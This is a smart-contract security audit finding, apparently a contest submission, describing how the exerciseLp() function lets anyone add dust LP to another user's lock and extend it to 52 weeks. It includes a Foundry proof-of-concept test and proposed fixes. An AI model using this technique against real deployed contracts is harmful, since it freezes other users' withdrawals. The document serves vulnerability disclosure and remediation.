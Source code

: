Vast Vermilion Aardvark

High

# Malicious users could extend other users' locks with dust lp, freezing fund withdrawals

## Summary
In the current exerciseLp(), anyone could deposit lp to locks owned by other users, extending these locks duration.

The problem is that even with dust amount, malicious users could extend duration of locks owned by other users,  up to 52 weeks. 

## Vulnerability Detail
In the current implementation of exerciseLp(), one can exercise lp and and add it into locks owned by `recipient` (could be another user)

```solidity
     function _exerciseLp(
        uint256 _amount,   // the oTOKEN amount the user wants to redeem with
        uint256 _maxPaymentAmount, // the
   >>>     address _recipient,
        uint256 _discount
    ) internal returns (uint256 paymentAmount, uint256 lpAmount) {
```
```solidity
        // Stake the LP in the gauge with lock
        address _gauge = gauge;
        _safeApprove(address(pair), _gauge, lpAmount);
        IGaugeV4(_gauge).depositWithLock(
     >>>       _recipient,
            lpAmount,
            getLockDurationForLpDiscount(_discount) 
        );
```
There is no restriction on min amount to deposit. Thus, it is possible to extend anyone's lock to full duration (52 weeks) with just dust amount; malicious users could exploit this to freeze fund withdrawals for other users.

## POC
Please add this test into OptionTokenV4.t.sol
```solidity
function testExerciseLpDust() public { 


        vm.startPrank(address(owner)); 
        FLOW.approve(address(oFlowV4), TOKEN_100K);
        // mint Option token to owner 2
        oFlowV4.mint(address(owner2), TOKEN_1);
        // mint Option token to owner 3
        oFlowV4.mint(address(owner3),  TOKEN_1);
        oFlowV4.mint(address(owner),  TOKEN_1);
        washTrades();
        vm.stopPrank();
        

        uint256 discountedPrice = oFlowV4.getLpDiscountedPrice(TOKEN_1,20);

        //Owner2 creates a lock 
        vm.startPrank(address(owner2));
        DAI.approve(address(oFlowV4), TOKEN_100K);
        oFlowV4.exerciseLp(TOKEN_1, TOKEN_1, address(owner2),20,block.timestamp);
        vm.stopPrank();


        //forward time. 52 week
        vm.warp(52 * 7 * 86400);

        //Random user deposit (could be anyone). Because reward rate is reset to 0 after each week, we need a first deposit which is big enough to make sure reward rate is > 0. 
        //In reality, due to vibrant activities, reward rate should not be 0 most of the time. 
        vm.startPrank(address(owner));
        DAI.approve(address(oFlowV4), TOKEN_100K);
        oFlowV4.exerciseLp(TOKEN_1, TOKEN_1, address(owner),20,block.timestamp);
        vm.stopPrank();

        // owner3 deposits dust to owner2's account (from owner3) to extend owner2's lock
        vm.startPrank(address(owner3));
        DAI.approve(address(oFlowV4), 12);
        oFlowV4.exerciseLp(10, 10, address(owner2),20,block.timestamp);
        vm.stopPrank();

     
        // This shows that anyone could extend lock for other users, which is a big problem
        assertEq(gauge.lockEnd(address(owner2)),block.timestamp + 52 * 7 * 86400);

    }
```
## Impact
Freezing fund withdrawal for users.
## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/OptionTokenV4.sol#L652-L657
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/OptionTokenV4.sol#L700-L704
## Tool used

Manual Review

## Recommendation
Consider either:
1. adding min amount restriction; exercising lp will revert if lp amount is less than the minimum amount allowed.
2. only allowing msg.sender to deposit to their lock.
